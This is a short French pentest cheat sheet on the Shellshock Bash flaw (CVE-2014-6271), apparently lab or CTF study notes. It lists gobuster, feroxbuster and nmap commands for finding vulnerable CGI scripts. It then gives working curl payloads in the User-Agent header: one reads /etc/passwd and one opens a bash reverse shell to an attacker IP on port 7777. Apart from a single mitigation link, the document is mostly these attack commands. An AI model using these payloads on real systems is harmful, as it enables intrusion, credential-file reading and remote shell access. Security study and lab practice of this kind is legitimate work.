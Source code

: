 
[CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)

> [!TIP]
> Permet d'exécuter des commandes en utilisant les variables d'environnement
> Exploite Bash < 4.4


- [ ] [[#ENUMERATION]]
- [ ] [[#EXPLOITATION]]
- [ ] [[#MITIGATION]]

# ENUMERATION

## Identifier .cgi / .sh / .pl

```shell
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,cgi,pl
```

```bash
feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl
```


## Valider ShellShock avec Nmap

```bash
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
```


---

# EXPLOITATION

Injection de commande au travers du User-Agent

```shell
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

Reverse shell

```shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```




---

# MITIGATION

https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability

